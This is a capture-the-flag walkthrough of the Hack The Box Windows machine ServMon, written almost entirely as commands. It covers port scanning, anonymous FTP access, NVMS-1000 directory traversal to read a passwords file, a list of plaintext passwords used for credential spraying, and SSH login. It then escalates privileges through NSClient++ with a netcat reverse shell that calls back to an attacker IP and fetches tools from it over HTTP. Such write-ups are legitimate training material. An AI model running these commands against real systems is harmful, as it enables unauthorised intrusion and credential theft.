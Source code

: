## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)


## 🔎 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.184
nmap -sV -sC -p 21,22,80,135,139,445,5040,5666,6063,6699,7680,8443 -oA scans/nmap-tcpscripts 10.10.10.184
```

---

## 📁 [FTP](FTP) Enumeration

```bash
wget -r ftp://anonymous:@10.10.10.184
find ftp/ -type f
cat ftp/Users/Nadine/Confidential.txt
cat ftp/Users/Nathan/Notes\ to\ do.txt
```

---

## 🌐 [Web](HTTP) (TCP 80) – NVMS-1000

```bash
searchsploit "nvms 1000"
# Test LFI
curl 'http://10.10.10.184/../../../../../../../../../../../../windows/win.ini'
# Use traversal to read passwords.txt
curl 'http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/passwords.txt'
```

---

## 🔓 Credential Testing

```bash
# Create users.txt and passwords.txt
cat > users <<EOF
administrator
nathan
nadine
EOF

cat > passwords <<EOF
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
EOF

crackmapexec smb 10.10.10.184 -u users -p passwords
```

---

## 🐚 Shell as Nadine [SSH](SSH)

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184
```

---

## 🔐 NSClient++ Enumeration & Tunnel

```bash
# Display password from inside SSH shell
nscp web -- password --display

# Local tunnel to access 127.0.0.1:8443
sshpass -p 'L1k3B1gBut7s@W0rk' ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

---

## 🧨 NSClient++ Exploitation Steps

```bash
# Attacker box: prepare reverse shell payload
echo '\programdata\nc.exe 10.10.14.24 443 -e cmd' > shell.bat
python3 -m http.server 80

# Target box: download tools
powershell wget http://10.10.14.24/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.24/shell.bat -outfile shell.bat
```

Then on NSClient++ web GUI (via https://127.0.0.1:8443):
- Add external script `df` → `C:\\programdata\\shell.bat`
- Add schedule to run `df` every 10s
- Control → Reload

---

## 🖥️ Catch SYSTEM Shell

```bash
rlwrap nc -lvnp 443
# Wait for reverse shell
```